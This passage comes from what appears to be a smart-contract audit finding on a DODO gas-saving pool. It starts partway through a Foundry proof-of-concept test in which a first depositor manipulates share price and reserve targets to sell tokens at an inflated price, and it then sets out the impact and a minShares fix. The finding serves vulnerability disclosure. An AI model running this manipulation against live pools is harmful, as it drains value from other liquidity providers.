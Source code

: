 ```solidity
        
        vm.stopPrank();

        // now reserve to target ratio is 5e14
        // next buy shares of user will keep this ratio

        address user = address(1234);
        mockBaseToken.mint(user,type(uint).max);
        mockQuoteToken.mint(user,type(uint).max);

        vm.startPrank(user);
        mockBaseToken.transfer(address(gspTest), 1e18);
        mockQuoteToken.transfer(address(gspTest), 1e18);

        gspTest.buyShares(user);
        
        vm.stopPrank();
        assert(gspTest._QUOTE_TARGET_() == 4000);
        assert(gspTest._BASE_TARGET_() == 4000);

        // now the attacker can make use of the large (reserve - target) to trade at a higher price
        vm.startPrank(attacker);

        // first call sellquotetoken to make r above one
        gspTest.sellQuote(attacker);
        // the calculated base target will be higher as the required amount to reach equillibrium for quote asset is 2e18 - 4000. Hence the attacker can sellBase at a price > 1 and obtain 2e18-4000 quoteTokens
        address receiver = address(12345);
        uint newTargetBaseAmount = DODOMath._SolveQuadraticFunctionForTarget(2e18,2e18 - 4000,1e18,
            500000000000000);
        uint sellAmount = newTargetBaseAmount - 2e18;
        mockBaseToken.transfer(address(gspTest),sellAmount);
        uint receivedAmount = gspTest.sellBase(receiver);
        
        uint sellPrice  = receivedAmount * 1e18 / sellAmount;
        assert(sellPrice > 1e18); // (1000499750249688627 ie. 1.0005)
    }
```

## Impact
First depositor can trade at an higher price at loss for second / subsequent LP's.

## Code Snippet
`sync` function callable by first depositor to increase share price
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L118-L132

next depositor is minted higher valued share(hence low amount) and scales the target by the same amount
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L67-L75

## Tool used
Manual Review

## Recommendation
Allow the depositor to provide a `minShares` amount either in this contract or in router. This way the share value manipulation can be identified.